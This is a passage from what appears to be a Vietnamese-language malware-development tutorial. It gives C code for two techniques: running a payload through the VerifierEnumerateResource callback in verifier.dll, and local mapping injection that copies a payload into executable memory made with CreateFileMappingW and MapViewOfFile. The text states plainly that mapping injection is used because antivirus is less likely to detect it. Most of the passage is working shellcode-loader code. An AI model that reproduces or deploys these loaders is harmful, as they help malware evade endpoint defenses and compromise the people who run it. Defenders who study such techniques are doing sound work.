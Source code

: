 Ví dụ:

```c
HMODULE hModule = NULL;
fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

hModule = LoadLibraryA("verifier.dll");
if (hModule == NULL) {
    printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
    return -1;
}

pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
if (pVerifierEnumerateResource == NULL) {
    printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
    return -1;
}

// Chạy payload bằng cách thiết lập cờ AvrfResourceHeapAllocation
pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);
```
### **Mapping Injection**

Mapping injection là một kỹ thuật mà trong đó bộ nhớ được ánh xạ vào không gian địa chỉ của một process. Kỹ thuật này ít bị phát hiện hơn so với các phương pháp cấp phát bộ nhớ truyền thống, chẳng hạn như `VirtualAlloc`, vì chúng dễ bị phần mềm diệt virus theo dõi.

#### **Mapping Injection Nội Bộ**

Dưới đây là cách bạn có thể tiêm một payload vào bộ nhớ sử dụng `CreateFileMapping` và `MapViewOfFile`:

```c
BOOL LocalMapInject(IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {
    BOOL bSTATE = TRUE;
    HANDLE hFile = NULL;
    PVOID pMapAddress = NULL;

    // Tạo file mapping với quyền RWX
    hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
    if (hFile == NULL) {
        printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
        bSTATE = FALSE; goto _EndOfFunction;
    }

    // Ánh xạ payload vào bộ nhớ
    pMapAddress = MapViewOfFile(hFile, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sPayloadSize);
    if (pMapAddress == NULL) {
        printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
        bSTATE = FALSE; goto _EndOfFunction;
    }

    // Sao chép payload vào bộ nhớ đã ánh xạ
    memcpy(pMapAddress, pPayload, sPayloadSize);

_EndOfFunction:
    *ppAddress = pMapAddress;
    if (hFile)
        CloseHandle(hFile);
    return bSTATE;
}
```